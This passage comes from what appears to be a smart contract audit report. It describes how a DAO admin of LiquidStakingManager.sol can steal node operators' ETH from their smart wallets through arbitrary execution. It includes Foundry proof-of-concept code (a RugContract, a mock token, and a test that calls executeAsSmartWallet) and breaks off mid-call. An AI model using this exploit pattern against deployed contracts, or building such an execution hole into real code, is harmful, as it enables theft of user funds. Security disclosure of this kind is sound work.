 but  Dao admin in LiquidStakingManager.sol can rug the registered node operator by stealing their fund in the smart wallet via arbitrary execution.

**As shown in POC:**

first we add this smart contract in LiquidStakingManager.t.sol

https://github.com/code-423n4/2022-11-stakehouse/blob/4b6828e9c807f2f7c569e6d721ca1289f7cf7112/test/foundry/LiquidStakingManager.t.sol#L12

```solidity
import { ERC20 } from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract RugContract {

    function receiveFund() external payable {

    }

    receive() external payable {}
}

contract MockToken is ERC20 {

    constructor()ERC20("A", "B") {
        _mint(msg.sender, 10000 ether);
    }

}
```

**We add the two POC,** 

https://github.com/code-423n4/2022-11-stakehouse/blob/4b6828e9c807f2f7c569e6d721ca1289f7cf7112/test/foundry/LiquidStakingManager.t.sol#L35

the first POC shows the admin can steal the ETH from the smart contract via arbrary execution.

```solidity
    function testDaoRugFund_Pull_ETH_POC() public {
        
        address user = vm.addr(21312);

        bytes[] memory publicKeys = new bytes[](1);
        publicKeys[0] = "publicKeys";

        bytes[] memory signature = new bytes[](1);
        signature[0] = "signature";

        RugContract rug = new RugContract();

        // user spends 4 ehter and register the key to become the public operator
        vm.prank(user);
        vm.deal(user, 4 ether);
        manager.registerBLSPublicKeys{value: 4 ether}(
            publicKeys,
            signature,
            user
        );
        address wallet = manager.smartWalletOfNodeRunner(user);
        console.log("wallet ETH balance for user after registering");
        console.log(wallet.balance);

        // dao admin rug the user by withdraw the ETH via arbitrary execution.
        vm.prank(admin);
        bytes memory data = abi.encodeWithSelector(RugContract.receiveFund.selector, "");
        manager.executeAsSmartWallet(
            user,
```